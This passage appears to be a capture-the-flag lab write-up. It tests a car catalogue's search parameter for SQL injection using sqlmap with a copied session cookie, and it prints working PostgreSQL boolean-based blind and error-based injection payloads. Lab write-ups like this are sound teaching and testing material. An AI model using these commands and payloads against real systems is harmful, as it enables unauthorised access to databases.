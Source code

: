 The page is found to host a Car Catalogue, and contains functionality to search for products. Searching for a term results in the following request.

~~~
http://10.10.10.46/dashboard.php?search=a
~~~

The page takes in a GET request with the parameter `search`. This URL is supplied to sqlmap, in order to test for SQL injection vulnerabilities. The website uses cookies, which can be specified using `--cookie`.

Right-click the page and select `Inspect Element`. Click the `Storage` tab and copy the PHP Session ID.

!["cookie.png"](files/cookie.png)

We can construct the Sqlmap query as follows:

~~~
unknown@kali:/data$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie='PHPSESSID=tcer626cqoumebdilfbbib1l57'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.6#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:11:58 /2020-06-12/

[20:11:58] [INFO] resuming back-end DBMS 'postgresql' 
[20:11:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (9551=9551) THEN NULL ELSE CAST((CHR(115)||CHR(108)||CHR(68)||CHR(99)) AS NUMERIC) END)) IS NULL-- XqWO

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 1525=CAST((CHR(113)||CHR(98)||CHR(120)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (1525=1525) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(112)||CHR(113)||CHR(113)) AS NUMERIC)-- tJKF
~~~
